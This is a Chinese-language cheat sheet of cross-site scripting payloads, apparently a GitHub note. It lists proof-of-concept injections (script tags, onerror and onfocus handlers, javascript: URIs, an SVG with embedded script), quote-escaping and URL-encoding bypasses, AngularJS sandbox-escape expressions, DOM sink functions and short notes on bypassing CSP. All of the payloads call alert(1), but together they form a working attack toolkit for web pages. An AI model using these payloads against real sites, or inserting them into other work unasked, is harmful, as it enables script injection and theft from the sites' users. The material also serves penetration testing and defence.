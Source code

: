 ⚠️要么闭合标签，要么闭合引号⚠️  

## 常用POC:
- "><script>alert(1)</script>
- <img src=1 onerror=alert(1)>
- " autofocus onfocus=alert(1) x="
- <a href="javascript:alert(1)">
- javascript:alert(1);  
伪协议
- "><svg onload=alert(1)>
- <span title="" onmouseover="alert(/XSS/)">" onmouseover="alert(/XSS/)</span>
- '-alert(1)-'  
单引号作用：跳出前一个js

## 编码绕过POC：
- &apos;-alert(1)-&apos;  
- ';alert(1)//
- 当单引号被转义时  
` \\';alert(1)// `
- 有引号处理文字时,如：var input='payload';  
` ${alert(1)} `
- url编码  
` %27%2dalert(1)%2d%27 `

## 事件执行触发POC:
- accesskey:设置快捷键
`<a href="url" accesskey="c">alert()</a>` ctrl+shift+c触发
- mouseover:鼠标移动
`<span title="" onmouseover="alert(1)">" onmouseover="alert(1)"</span>`
- click:单击  
`<span title="" onclick="alert(1)">" onclick="alert(1)"</span>`

## SVG
```
<svg version="1.1" xmlns="http://www.w3.org/2000/svg">
	<circle cx="100" cy="50" r="40" stroke="black" stroke-width="2" fill="red" />
	<script>alert(1)</script>
</svg>
```

## DOM XSS出现位置函数
`document.write、location.search、eval（）、location、someDOMElement.innerHTML/uterHTML/insertAdjacentHTML/onevent`

## 沙箱逃逸
- toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
- <input autofocus ng-focus="$event.path|orderBy:'[].constructor.from([1],alert)'">
- {{$on.constructor('alert(1)')()}}

## 绕过CSP
- 悬空标记注入，指定url地址后面用？跟参数
- 修改响应包中CSP指令，覆盖现有规则script-src等